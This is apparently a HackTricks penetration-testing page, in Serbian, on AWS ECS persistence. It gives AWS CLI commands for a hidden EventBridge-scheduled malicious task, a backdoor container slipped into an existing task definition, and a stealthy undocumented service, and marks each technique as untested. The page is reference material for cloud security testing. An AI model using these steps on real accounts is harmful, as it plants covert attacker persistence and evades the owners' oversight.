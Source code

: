 # AWS - ECS Persistencija

{{#include ../../../banners/hacktricks-training.md}}

## ECS

Za više informacija pogledajte:

{{#ref}}
../aws-services/aws-ecs-enum.md
{{#endref}}

### Sakrivena Periodična ECS Zadatak

> [!NOTE]
> TODO: Test

Napadač može kreirati sakriveni periodični ECS zadatak koristeći Amazon EventBridge da **zakazuje izvršenje zlonamernog zadatka periodično**. Ovaj zadatak može vršiti izviđanje, eksfiltrirati podatke ili održavati persistenciju u AWS nalogu.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an Amazon EventBridge rule to trigger the task periodically
aws events put-rule --name "malicious-ecs-task-rule" --schedule-expression "rate(1 day)"

# Add a target to the rule to run the malicious ECS task
aws events put-targets --rule "malicious-ecs-task-rule" --targets '[
{
"Id": "malicious-ecs-task-target",
"Arn": "arn:aws:ecs:region:account-id:cluster/your-cluster",
"RoleArn": "arn:aws:iam::account-id:role/your-eventbridge-role",
"EcsParameters": {
"TaskDefinitionArn": "arn:aws:ecs:region:account-id:task-definition/malicious-task",
"TaskCount": 1
}
}
]'
```
### Backdoor kontejner u postojećoj ECS definiciji zadatka

> [!NOTE]
> TODO: Test

Napadač može dodati **neprimetan backdoor kontejner** u postojećoj ECS definiciji zadatka koji se pokreće zajedno sa legitimnim kontejnerima. Backdoor kontejner se može koristiti za persistenciju i izvođenje zlonamernih aktivnosti.
```bash
# Update the existing task definition to include the backdoor container
aws ecs register-task-definition --family "existing-task" --container-definitions '[
{
"name": "legitimate-container",
"image": "legitimate-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
},
{
"name": "backdoor-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": false
}
]'
```
### Nedokumentovana ECS Usluga

> [!NOTE]
> TODO: Test

Napadač može kreirati **nedokumentovanu ECS uslugu** koja pokreće zlonamernu radnju. Postavljanjem željenog broja radnji na minimum i onemogućavanjem logovanja, postaje teže administratorima da primete zlonamernu uslugu.
```bash
# Create a malicious task definition
aws ecs register-task-definition --family "malicious-task" --container-definitions '[
{
"name": "malicious-container",
"image": "malicious-image:latest",
"memory": 256,
"cpu": 10,
"essential": true
}
]'

# Create an undocumented ECS service with the malicious task definition
aws ecs create-service --service-name "undocumented-service" --task-definition "malicious-task" --desired-count 1 --cluster "your-cluster"
```
{{#include ../../../banners/hacktricks-training.md}}
